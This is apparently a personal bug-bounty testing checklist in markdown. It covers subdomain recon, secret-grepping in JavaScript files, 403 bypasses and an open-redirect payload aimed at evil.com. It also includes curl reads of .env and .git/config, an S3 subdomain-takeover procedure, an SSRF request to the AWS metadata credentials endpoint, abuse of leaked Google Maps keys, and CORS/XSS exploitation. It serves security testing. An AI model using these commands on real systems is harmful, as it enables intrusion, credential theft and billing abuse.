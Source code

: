 ✓ ✗ ✔ ✘ ✅
For Recon : 
[ ] - Use this command under a folder named as Target
	```assetfinder --subs-only target.com >> recon.txt  
	subfinder -d target.com -silent >> recon.txt  
	amass enum -passive -d target.com >> recon.txt  
	sort -u recon.txt > final-subs.txt
	cat final-subs.txt | httpx -status-code -title -tech-detect -silent > live-subs.txt```
[ ] - Check for `robots.txt` and `sitemap.xml` for subdomains and directories
[ ] - Checking for Secrets in JS FIles
	1. Download all the JS Files present.
	2. Use the command to grep the secrets, keys and tokens : 		```
		cat js_files.txt | while read url; do curl -s $url >> all_javascript_dump.txt; done  
		grep -iE "apikey|token|secret|authorization|bearer" all_javascript_dump.txt```
[ ] - Bruteforce checking all JS Files : `ffuf -w common.txt -u https://target.com/assets/js/FUZZ`
[ ] - Always check User Agent for for Logs, it may give RFi
[ ] - Checking for 403 Forbidden : 
	[ ] - **Adding headers** (like `X-Forwarded-For`, `X-Originating-IP`)
	[ ] - **Trying HTTP methods** (`GET`, `POST`, `HEAD`, `OPTIONS`)
	[ ] - **Using URL encoding tricks** (`%2e`, `%2f`, etc.)
	[ ] - **Appending a dot (**`**.**`**) or a slash (**`**/**`**) at the end**
	[ ] - **Spoofing the Referer header** (`Referer: example.com/allowed-page`)
[ ] - Check for the parameter named `redirect` that is used to redirect the site to the internal sites and then try to pollute it like : `https://app.target.com/login?redirect=dashboard&redirect=https://evil.com`
[ ] - Required payloads to be tried once : 
	```curl https://target.com/config/settings_dev.json
	curl https://target.com/.env
	curl https://target.com/.git/config```
[ ] - Check for the Technology used in the website. If it's Wordpress then : 
	[ ]  -Try using a wp-scan with the API Key to get a full report.
	[ ] - Check the notes in INE-WAPT -> CMS Security Testing
	[ ] - 
[ ] - Check for AWS Buckets : 
	[ ] - Check CNAME using the command : `dig old-staging.target.com CNAME` . If the result looks like this : `old-staging.target.com.  300 IN CNAME  old-target-dev.s3-website-us-east-1.amazonaws.com.` Then use the command : `aws s3 ls s3://old-target-dev` to check for the existence of the bucket.
	If this has happened this shows that, the origin S3 bucket was gone, but is still present as the CNAME of the target. Now we can own the bucket under our account using the command : `aws s3 mb s3://old-target-dev` . Create a simple HTML Page to host the website. Upload it using the command : ```aws s3 website s3://old-target-dev --index-document index.html
	aws s3 cp index.html s3://old-target-dev/ --acl public-read```
	Then to chain it with SSRF, we can use this command by making some changes into it  : `curl -X POST http://old-staging.target.com/api/render -d '{"url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/EC2Role"}'`
	Then to chain it with SSRF, we can use this command by making some changes into it  : `curl -X POST http://old-staging.target.com/api/render -d '{"url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/EC2Role"}'`
[ ] - API Keys
	[ ] - Google Maps API Key Exposure Impact - 
		[ ] - Check with this command if we get any response or not : `curl "https://maps.googleapis.com/maps/api/geocode/json?address=Delhi&key=<exposed-key>" `      
		[ ] -  Check for High Billing Impact : 
		```for i in {1..10}; do
		curl "https://maps.googleapis.com/maps/api/geocode/json?address=New+York+$i&key=<exposed-apikey>"
		done```
		[ ] - Check for Directions API : `curl "https://maps.googleapis.com/maps/api/directions/json?origin=Delhi&destination=Mumbai&key=<exposed-apikey>"`
		 [ ] - Check for DistanceMatrix API : `curl "https://maps.googleapis.com/maps/api/distancematrix/json?origins=Delhi&destinations=Bangalore&key=<exposed-apikey>"`
		 [ ] - Check for Places API : `curl "https://maps.googleapis.com/maps/api/place/textsearch/json?query=restaurants+in+Goa&key=<exposed-apikey>"`
		 [ ] - Create an HTML Page and try to use the key and get the services running : Go check out the Google MAP API Key Exploitation Page
[ ] - Authentication Attacks : 
1. Brute-forcing the username to get a valid username by checking precisely over the response packets.
2. If the Server blocks your IP, then try to use a Header in the Response Packet named as `X-Forarded-For:` and use a Pitchfork Attack and provide this with a random number set. Keep an eye on the response use the settings like : Grep-by Match, Response Timing Delays.
[ ] - Check for CORS
	1. by just adding this in the Request Packet : `Origin: https://example.com` and then check for the response if we observe the same URL in Response in `Access-Control-Allow-Origin` then we can exploit it by displaying that onto our website.
	2. Check by adding `null` if the above doesn't work out, and if the null works out then we can also generate Cross-origin requests.
	3. Exploiting XSS using CORS : 
		1. Even "correctly" configured CORS establishes a trust relationship between two origins. If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.
		2. Given the following request:
		`GET /api/requestApiKey HTTP/1.1 Host: vulnerable-website.com Origin: https://subdomain.vulnerable-website.com Cookie: sessionid=...`
		3. If the server responds with:
		`HTTP/1.1 200 OK Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com Access-Control-Allow-Credentials: true`
		4. Then an attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key, using a URL like: `https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>`

[ ] - 